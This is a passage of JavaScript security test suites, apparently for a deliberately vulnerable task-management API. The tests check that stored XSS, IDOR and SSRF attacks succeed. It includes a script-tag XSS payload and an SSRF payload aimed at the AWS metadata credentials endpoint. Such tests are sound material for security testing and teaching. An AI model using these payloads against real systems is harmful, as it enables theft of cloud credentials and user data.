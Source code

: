 ```javascript
      })
    );
  });
});
```

**2. XSS Testing Suite:**
```javascript
describe('XSS Vulnerability Tests', () => {
  test('should execute stored XSS in comments', async () => {
    const xssPayload = '<script>window.xssExecuted = true;</script>';
    
    // Create comment with XSS payload
    await request(app)
      .post(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`)
      .send({ content: xssPayload });
    
    // Verify payload is stored without sanitization
    const response = await request(app)
      .get(`/api/comments/task/${taskId}`)
      .set('Authorization', `Bearer ${validToken}`);
    
    expect(response.body[0].content).toBe(xssPayload);
  });
});
```

**3. IDOR Testing Framework:**
```javascript
describe('IDOR Vulnerability Tests', () => {
  test('should allow access to other users tasks', async () => {
    // Create task as user1
    const task = await createTaskAsUser(user1Token);
    
    // Try to access task as user2
    const response = await request(app)
      .get(`/api/tasks/${task.id}`)
      .set('Authorization', `Bearer ${user2Token}`);
    
    // Should succeed due to IDOR vulnerability
    expect(response.status).toBe(200);
    expect(response.body.id).toBe(task.id);
  });
});
```

**4. SSRF and LFI Testing Suite:**
```javascript
describe('SSRF Vulnerability Tests', () => {
  test('should allow access to cloud metadata service', async () => {
    const ssrfPayload = {
      importUrl: 'http://169.254.169.254/latest/meta-data/iam/security-credentials/',
      format: 'json'
    };
    
    const response = await request(app)
      .post('/api/tasks/import')
      .set('Authorization', `Bearer ${validToken}`)
      .send(ssrfPayload);
    
    expect(response.status).toBe(200);
    expect(response.body.metadata).toBeDefined();
  });
  
```